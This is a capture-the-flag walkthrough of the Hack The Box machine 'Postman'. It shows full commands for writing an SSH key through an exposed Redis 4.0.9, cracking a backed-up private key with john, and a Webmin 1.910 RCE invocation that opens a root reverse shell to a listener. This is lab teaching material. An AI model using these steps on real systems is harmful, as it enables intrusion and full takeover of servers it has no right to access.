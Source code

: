 # Postman

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.2.1   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 02:05 EDT
Nmap scan report for 10.129.2.1
Host is up (0.0065s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt
```

Redis is open interestingly. So we can try to check for vulnerabilities there first.

### SSH Key Write

We can connect to Redis using `redis-cli`.&#x20;

```
$ redis-cli -h 10.129.2.1
10.129.2.1:6379> info
# Server
redis_version:4.0.9
```

The Redis version is really outdated, so we can try to find some exploits regarding it. Hacktricks has some methods of exploiting this by writing SSH keys.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh" %}

Just follow these commands:

```bash
ssh-keygen -t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set ssh_key
redis-cli -h 10.129.2.1
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
exit
chmod 600 id_rsa
ssh -i id_rsa redis@10.129.2.1
```

This would generate a pair of keys, and afterwards write it into the machine as the keys for `redis`. Then we can directly SSH in.

<figure><img src="../../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### User SSH Key

Within the `/home` directory, we find the user is called Matt

```
redis@Postman:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
drwxr-xr-x  6 Matt Matt 4096 Sep 11  2019 Matt
```

Within the `/opt` directory, there's a password encrypted `id_rsa` file.&#x20;

```
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
```

We can download this back to our machine and use `ssh2john` and `john` to crack it.&#x20;

```
$ ssh2john id_rsa.bak > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)     
1g 0:00:00:00 DONE (2023-05-02 02:17) 9.090g/s 2243Kp/s 2243Kc/s 2243KC/s confused6..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Great! We now have a password for the user. We can use `su` to change from `redis` to `Matt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

### Webmin

In the earlier `nmap` scan, we found that there were some HTTP ports that I didn't touch till now. Port 10000 has a Webmin instance running, and we can login using the credentials we just found.

<figure><img src="../../../.gitbook/assets/image (32) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

This was running Webmin 1.910, which is vulnerable to RCE through Package Updates. There are tons of PoCs online.

{% embed url="https://github.com/NaveenNguyen/Webmin-1.910-Package-Updates-RCE/blob/master/exploit_poc.py" %}

```bash
$ python3 rce.py --ip_address 10.129.2.1 --port 10000 --lhost 10.10.14.13 --lport 4444 --user Matt --password computer2008
```

This would give us an easy `root` shell.

<figure><img src="../../../.gitbook/assets/image (12) (4).png" alt=""><figcaption></figcaption></figure>
